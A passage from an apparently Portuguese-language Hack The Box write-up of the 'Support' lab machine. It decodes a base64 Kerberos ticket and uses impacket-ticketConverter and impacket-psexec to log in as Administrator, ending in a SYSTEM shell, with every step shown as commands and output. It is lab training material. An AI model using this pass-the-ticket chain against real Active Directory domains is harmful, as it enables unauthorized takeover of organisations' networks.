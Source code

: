 ```bash
JdIObXIRFmN6zvHeTZAoj2XtHlQVfG2H6uIxzq1k3lWFlQ+5BXxKyv1LLMhWLYsmcF5P66oJCK2LHRLk
Lh05dma1O9vX9FgAjqMJQYKaujwKYMO318L29CHf3K5LB4u01Kjmjil3rCMpIu3JaUrzLVTV8Gq/0/Zp
fRw1mXc/7nP782vuL//OUL87aL6ThauxCQQVO+yDfLrXMWVT89FG7hBNMh1gdK/mcFfzZvJgpHgRjx+5
BgTJJ9WikxArE/AyY4UsgnwNvvK8cyU6FDZ4MsQrvRnnYxv9PLon3+gJGMPVzZ8udH49wcBmMTUKZvRP
qzxQQM+67nQ7348Z3O8G4OkJpDikK6ICkRJF4xTlewhFCxqb64q9gkWO+0Veo+TPdI5Y2HuAjNrh1h0o
whqGkt83JJSSIrSniAQAsjgIclHLdOZ8uD/wZkcpZIaJ97IQGNzig+xGCXekXVvZ6DWXP+St8HlMeZNl
VaEXcfl8ZcPI8VS52NWaOFKvs0uWF2B0YEcUO3+QJCTX+KTJT1pmdNooMD2FgxDgfsZv/882UOC99D28
qZNYJDt1vb0O8/xpTY/qhPKQnlOM3RqaCMuw7+vXO6O3xKBHYzp4kzG0HStDIO2b+TujvVsPIjtFgA1A
GpIVi//QeROyFWTcPtSSnQnX2ZsBF6/wzet7xvZMY2Pq7x+SP66XGL5LE5kukBDtAxiFrBn/JHqBNwXr
ybRudMSRTrWxv5opEkgnJJtpNXiycp2mQiFV3uXzIGiP73D/YxodlNgs9mkjUT0FcoE3DOM41z78/WvJ
L20q2KsL77v3yE4uCxVm6rR3EFnakxWArVQzSsQNo/LfaeN+KESGduMxzlGF1yx5sSuAX/JMYEFumBBr
MrCQMbu7dYp+EKBTJkzrKw6bLHSm44hYUyIj53+BLHmLoM6NW1sfjKkHi9p/ACYNfHm1xAa1Xeqy9Whi
q0oJIdndOVarn+rnxzH+/f57J58T1P6oXivSOc3DgPPhfVHhDTaLEi3ZXOMiopZ/WluPaTyDwiEcIcAp
5MUHTn0a3sMsD0xa6DE6escytKNo/k4krK4sQu30vBMQ+QbnKw2+ssyDGL5fGmqaPmVhBjAmgOCXxmwh
cgmrLxRRmptHe+BYdljgxDnNH+JE2owjjWe7zXaellhD5MSeUsjpfJZfoFHEH+G1GCJgUapsjkLT92Xb
ZGwwjTTTMADu3l5Jp8SLeDBNRjNTnNIH9zg1zswbp40lgHaX/oTUf+Y9RQ3jag4J50g0m/LiUqnP4dSw
oBc40MXNRVNyw29QohrqMLD4M1WgSMYUyGNB4y899GXJIT7Vo4HZMIHWoAMCAQCigc4Egct9gcgwgcWg
gcIwgb8wgbygGzAZoAMCARGhEgQQq8qiqAACj34FhVoKaPReT6ENGwtTVVBQT1JULkhUQqIaMBigAwIB
CqERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAyNDAxMTAxOTA4NDZaphEYDzIwMjQwMTEx
MDUwODQ2WqcRGA8yMDI0MDExNzE5MDg0NlqoDRsLU1VQUE9SVC5IVEKpITAfoAMCAQKhGDAWGwRjaWZz
Gw5kYy5zdXBwb3J0Lmh0Yg==

┌──(kali㉿kali)-[~/…/HTB/support]
└─$ base64 -d ticket64_1.kirbi > ticket.kirbi
```

​	Com o ticket em um arquivo, usamos o **impacket-ticketConverter** para gerar o arquivo **.ccache** , o qual exportaremos para nossa shell e usaremos para logar como **Administrator** via **impacket-psexec**. 

```bash
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ impacket-ticketConverter ticket.kirbi ticket.ccache                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ export KRB5CCNAME=ticket.ccache

┌──(kali㉿kali)-[~/…/HTB/support]
└─$ impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file eHmMEylO.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service AbFS on dc.support.htb.....
[*] Starting service AbFS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

